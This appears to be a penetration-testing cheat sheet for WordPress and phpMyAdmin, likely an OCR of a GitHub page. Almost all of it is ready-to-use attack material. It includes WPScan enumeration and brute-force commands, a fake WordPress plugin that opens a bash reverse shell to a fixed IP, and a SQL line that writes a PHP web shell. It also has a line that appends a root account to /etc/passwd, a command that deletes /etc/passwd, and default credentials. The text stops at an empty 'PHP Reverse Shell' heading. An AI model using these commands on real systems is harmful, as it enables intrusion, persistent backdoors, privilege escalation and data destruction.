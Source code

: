WPScan Commands:

```bash
# Update WPScan
wpscan --update

# Enumerates through plugins
wpscan --url "[TARGET]" --enumerate p --plugins-detection aggressive

# Enumerates vulnerable plugins, users, vulrenable themes, timthumbs
wpscan --url "[TARGET]" --enumerate vp,u,vt,tt --follow-redirection --verbose --log target.log

# Brute Force
wpscan --url "[TARGET]" --usernames "[USERNAMES]" --passwords "[PASSWORDS]"
```

WordPress Database Enumeration:

```sql
# Searching through WordPress options
select * from wp_options;
```

```php
<?php

/**
* Plugin Name: Reverse Shell Plugin
* Plugin URI:
* Description: Reverse Shell Plugin
* Version: 1.0
* Author: Vince Matteo
* Author URI: http://www.sevenlayers.com
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.45.152/80 0>&1'");
?>
```
### PhpMyAdmin

Default Credentials:
* `root:root`
* `root:no password`

PHP Backdoor:

```sql
SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\backdoor.php"

SELECT "root:$1$ARg8T8zS$sKQkSE6vj8uppky8/EbOV0:0:0:root:/root:/bin/bash" >> "/etc/passwd"

\! rm -f /etc/passwd
```

PHP Reverse Shell:
